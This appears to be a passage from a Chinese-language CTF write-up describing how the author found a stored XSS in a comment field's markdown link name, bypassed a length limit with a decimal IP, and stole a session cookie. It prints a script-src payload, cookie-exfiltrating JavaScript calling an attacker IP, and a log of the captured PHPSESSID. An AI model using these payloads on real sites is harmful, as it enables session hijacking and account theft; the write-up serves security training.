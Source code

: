 ```
/usr/share/wfuzz/wordlist/Injections/SQL.txt   
/usr/share/wfuzz/wordlist/Injections/XSS.txt 
```

用这几个字典里的标准注入语句和 xss 代码对 GET view=?和 POST comment=?这两个参数过了一遍，没发现任何 xss 或者注入，于是我们决定对 comment 这个地方再仔细看看。

comment 参数似乎过滤了不少东西，比如去掉了所有引号，转义了全部 html 特殊字符。但是似乎 comment 支持 markdown 语言里的斜体，粗体和链接标签，然后我们用 burp intruder 的 xss 测试在下面几个输入里面测试:

```
*test*   
*test*   
<test> 
```

果然成功了，在 markdown 链接标签的链接名称的地方存在 XSS:

后续测试发现链接名称最长只能用 30 字符，翻了翻 OWASP 的 XSS cheat sheet，

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

最短的是这个:

```
<SCRIPT SRC=//ha.ckers.org/.j> 
```

在 Kali 中，新建个文件 .j，里面放点偷 cookie 的 js:

```
$.get('http://192.168.16.101?cookie='+document.cookie); 
```

然后在同目录下用 python 开个 http 服务器:

python -m SimpleHTTPServer 80

发送 XSS payload `[<SCRIPT SRC=//192.168.16.101/.j>][1]`

然后坐等目标上钩...
.
.
.
等了这么久怎么还没有?
原来是 192.168.16.101 这个 ip 太长了，payload 被截断了……
再仔细想想，好像很多浏览器支持十进制 IP 的,于是我们的 payload 变成了:

```
[<script src=//3232239717/.j>][1] 
```

好吧，其实还是超过了 30 位，不过比赛的时候这个长度被改成了 75 位所以无所谓了。

发送这个 payload 后，过了一会儿在控制台里出现了 Python HTTP Server 的日志:

```
172.16.1.80   [20/Feb/2014 16:11:07] "GET /.j HTTP/1.1" 200    
172.16.1.80   [20/Feb/2014 16:11:12] "GET   
/?cookie=PHPSESSID=pm5qdd1636bp8o1fs92smvi916;%20vip=0 HTTP/1.1" 301 
```
